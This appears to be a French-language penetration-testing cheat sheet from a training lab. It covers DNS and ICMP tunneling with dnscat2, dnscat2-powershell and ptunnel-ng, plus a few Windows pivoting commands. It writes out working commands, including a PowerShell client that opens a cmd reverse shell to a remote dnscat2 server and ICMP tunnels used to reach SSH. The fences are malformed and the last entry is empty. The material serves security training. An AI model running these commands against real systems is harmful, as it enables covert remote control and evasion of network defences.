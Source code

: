 ```shell
## Tunneling DNS et ICMP

### Clone le dépôt GitHub du projet dnscat2.
```bash
`git clone https://github.com/iagox86/dnscat2.git`
```shell
### Utilisé pour démarrer le serveur dnscat2.rb s'exécutant sur l'adresse IP spécifiée, le port (53) et utilisant le domaine inlanefreight.local avec l'option no-cache activée.
```bash
`sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache`
```shell
### Clone le dépôt Github du projet dnscat2-powershell.
```bash
`git clone https://github.com/lukebaggett/dnscat2-powershell.git`
```shell
### Commande PowerShell utilisée pour importer l'outil dnscat2.ps1.
```bash
`Import-Module dnscat2.ps1`
```shell
### Commande PowerShell utilisée pour se connecter à un serveur dnscat2 spécifié en utilisant une adresse IP, un nom de domaine et un secret prépartagé. Le client renverra une connexion shell au serveur (-Exec cmd).
```bash
`Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd`
```shell
### Utilisé pour lister les options dnscat2.
```bash
`dnscat2> ?`
```shell
### Utilisé pour interagir avec une session dnscat2 établie.
```bash
`dnscat2> window -i 1`
```shell
### Clone le dépôt GitHub du projet ptunnel-ng.
```bash
`git clone https://github.com/utoni/ptunnel-ng.git`
```shell
### Utilisé pour exécuter le script shell autogen.sh qui construira les fichiers ptunnel-ng nécessaires.
```bash
`sudo ./autogen.sh`
```shell
### Utilisé pour démarrer le serveur ptunnel-ng sur l'adresse IP spécifiée (-r) et le port correspondant (-R22).
```bash
`sudo ./ptunnel-ng -r10.129.202.64 -R22`
```shell
### Utilisé pour se connecter à un serveur ptunnel-ng spécifié via le port local 2222 (-l2222).
```bash
`sudo ./ptunnel-ng -p10.129.202.64 -l2222 -r10.129.202.64 -R22`
```shell
### Commande SSH utilisée pour se connecter à un serveur SSH via un port local. Cela peut être utilisé pour tunneler le trafic SSH à travers un tunnel ICMP.
```bash
`ssh -p2222 -lubuntu 127.0.0.1`
```shell
## Solutions Windows

### Recherche Metasploit qui tente de trouver un module appelé rdp_scanner.
```bash
`msf6 > search rdp_scanner`
```shell
### Commande Windows utilisée pour enregistrer le SocksOverRDP-PLugin.dll.
```bash
`regsvr32.exe SocksOverRDP-Plugin.dll`
```shell
### findstr 1080
```bash
```